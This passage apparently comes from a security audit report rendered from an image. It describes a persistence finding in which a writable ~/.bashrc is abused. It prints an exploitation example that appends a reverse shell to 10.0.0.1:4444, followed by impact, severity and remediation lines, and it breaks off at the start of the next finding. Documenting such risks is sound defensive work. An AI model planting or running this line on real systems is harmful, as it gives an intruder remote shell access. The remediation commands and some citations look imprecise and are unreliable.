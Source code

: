 ┃                                                                                                                                                                                                                                     ┃
┃  echo "exec 5<>/dev/tcp/10.0.0.1/4444 && sh <&5 >&5 2>&5" >> ~/.bashrc                                                                                                                                                              ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                                                                                                                                                     ┃
┃ Impact: Escalates callback channels on user login                                                                                                                                                                                   ┃
┃ Criticality: High (CVSS 8.5)                                                                                                                                                                                                        ┃
┃ Remediation:                                                                                                                                                                                                                        ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                                                                                                                                                     ┃
┃  find /home -name .bashrc -exec chmod 644 {} + &&                                                                                                                                                                                   ┃
┃  find /home -name .bashrc -exec chown -R :users {} +                                                                                                                                                                                ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                                                                                                                                                     ┃
┃ Sources:                                                                                                                                                                                                                            ┃
┃ MITRE T1504 | SANS ShellShock Guide | Chapter 7 - Linux User Security                                                                                                                                                               ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                   3. Root File Manipulation Risk                                                                                                    ┃
┃                                                                                                                                                                                                                                     ┃
┃ Vulnerability: World-writable critical files enable OS-level persistence                                                                                                                                                            ┃
┃ Exploitation Example:                                                                                                                                                                                                               ┃
